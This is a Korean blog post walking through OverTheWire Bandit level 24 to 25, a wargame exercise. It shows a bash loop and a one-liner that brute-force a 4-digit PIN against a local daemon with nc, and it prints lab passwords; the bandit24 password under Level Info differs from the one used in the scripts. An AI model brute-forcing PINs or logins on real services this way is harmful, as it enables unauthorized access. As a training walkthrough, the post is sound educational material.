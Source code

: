 ```yaml
---
layout: post
title: "[Bandit] Level 24 → 25 풀이"
date: 2025-07-05 09:05:00 +0900
categories: [bandit]
tags: [overthewire, bandit, linux, brute-force, shell-script]
---
```


> 📝 **공식 문제 (Level 24 → 25)**
>
> **Level Goal**
> A daemon is listening on port 30002 and will give you the password for bandit25 if you send it the password for bandit24 and a 4 digit numeric PIN code.
>
> **Commands you may need to solve this level**
> `nc`, `telnet`

---

## 🔐 Level Info

- **접속 정보**
  - 사용자: `bandit24`
  - 비밀번호: `D2J41fb8mpcr9hjsf32ECf2d012eK2g9`
  
- **접속 명령어**

  ```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
  ```

---

## 🧪 풀이 과정

1.  `localhost:30002`로 접속하여 현재 비밀번호와 4자리 PIN을 입력해야 함을 확인
2.  0000부터 9999까지 모든 PIN을 시도하는 `for` 루프 쉘 스크립트 작성
3.  스크립트를 실행하여 올바른 PIN을 찾고 다음 비밀번호 획득

```bash
# 풀이용 스크립트 파일 (brute.sh) 내용
#!/bin/bash
PASS="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"
for i in {0000..9999}
do
  echo "$PASS $i"
done | nc localhost 30002 | grep -v "Wrong"
```

## 🧪 다른 풀이 방법
1.  스크립트 파일 없이, 터미널에서 한 줄로 for 루프를 실행

```bash
bandit24@bandit:~$ for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002 | grep -v "Wrong"
```

---

## 🎯 결과

<details markdown="1">
<summary>👀 클릭하여 비밀번호 확인하기</summary>

```bash
pOhf1B4V482m1D5OPs2f42a5M7i42oSb
```

</details>

---

## 💡 배운 점
1. 쉘 스크립트 for 루프를 이용한 Brute-force 공격
2. {0000..9999}: 0으로 채워진 4자리 숫자를 순차적으로 생성함.
3. grep -v "Wrong": "Wrong"이 포함된 줄을 제외하고 출력하여, 성공한 결과만 필터링함.

---

